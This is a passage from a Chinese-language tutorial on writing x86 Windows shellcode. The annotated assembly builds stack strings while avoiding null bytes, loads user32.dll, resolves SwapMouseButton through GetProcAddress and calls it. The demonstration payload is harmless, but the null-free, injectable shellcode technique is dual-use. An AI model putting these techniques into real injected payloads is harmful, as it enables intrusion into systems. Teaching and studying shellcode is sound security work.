清理完栈，开始干正事。首先需要把eax里`LoadLibrary`的地址备个份：

```assembly
push eax        ;调用函数前记得备份通用寄存器

;接下来，和刚才调用GetProcAddress一样，事先向栈里压字符串：
push ecx        ;\0
;由于"user32.dll"是10个字符，不是四的整数倍，所以要单独处理最末的10%4=2位

mov cx, 0x6c6c  ;把"ll"整进ecx里。用cx可以避免0x0，因为oprand是四个字节。
push ecx;       ;把"ll"压进栈

;其它部分和之前一样
push 0x642e3233     ;"d.23"
push 0x72657375     ;"resu"
push esp            ;老办法
call eax            ;相当于调用LoadLibrary("user32.dll") 
```

加载完user32.dll，就可以查`SwapMouseButton`的地址了：

```assembly
;之前栈字符串占用的栈空间= ecx的4字节（\0）+ ecx的另外4字节（"ll"）+ 剩下8个字的8字节 = 16（0x10）

add esp, 0x10   ;清理掉栈字符串

;注意，我们早前压过一个GetProcAddress的地址，中间压过一些字符串但是都清理掉了，然后晚些时候又压了LoadLibrary的地址，后者现在在栈顶。
;现在我们要取GetProcAddress，所以它的指针为栈顶指针+4，4为LoadLibrary的指针长度：

mov edx, [esp + 0x4]

;此时edx中已经保存了GetProcAddress的指针
```

拿到函数指针，接下来还是传统绝活栈字符串：

```assembly
xor ecx, ecx		
push ecx			            ;\0
mov ecx, 0x616e6f74	            ;"anot"
push ecx
sub dword ptr[esp+0x3], 0x61  ;通过减法把充位置的a变成0x0
push 0x74754265;		        ;"tuBe"
push 0x73756F4D;		        ;"suoM"
push 0x70617753;		        ;"pawS"
push esp;			
push eax;			            ;user32.dll的基地址
call edx;			            ;等价于GetProcAddress(user32.BaseAddress, SwapMouseButton)

;这时候eax里应该就是SwapMouseButton的地址了，直接调用它：

;首先计算栈上废物的长度为4(ecx)+4(ecx)+4("tuBe")+4("suoM")+4("pawS")=20(0x14)，所以：
add esp, 0x14       ;重置栈顶指针
xor ecx, ecx
inc ecx             ;制造一个true
push ecx            ;入参
call eax            ;调用SwapMouseButton
```
